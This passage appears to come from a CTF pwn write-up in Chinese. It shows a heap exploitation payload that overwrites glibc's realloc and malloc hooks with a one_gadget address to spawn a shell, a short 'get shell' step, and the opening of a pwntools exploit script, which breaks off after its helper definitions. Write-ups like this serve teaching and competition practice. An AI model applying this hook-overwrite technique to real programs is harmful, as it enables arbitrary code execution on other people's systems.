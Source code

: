 #### payload构造如下

```python
	#modify malloc_hook
	realloc_addr = libc_base + lib.sym['realloc']
	li('realloc_addr ' +  hex(realloc_addr))
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = libc_base + gadget[3]
	p = '\x11' * (0x13 - 8)
	p += p64(one_gadget) # realloc_hook
	#mallok_hook then call realloc for banance stackthen call one_gadget
	p += p64(realloc_addr + 20) # malloc_hook
	p += '\n'
	ad(0x68, p)
	
```

## get shell

```python
	# get shell
	sl('1')
	sl('1')
```



## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'

#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "timu"
libFile  = "./libc.so.6"
libFile  = '/lib/x86_64-linux-gnu/libc.so.6'

remoteIp = "0.0.0.0"
remotePort = 0

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
```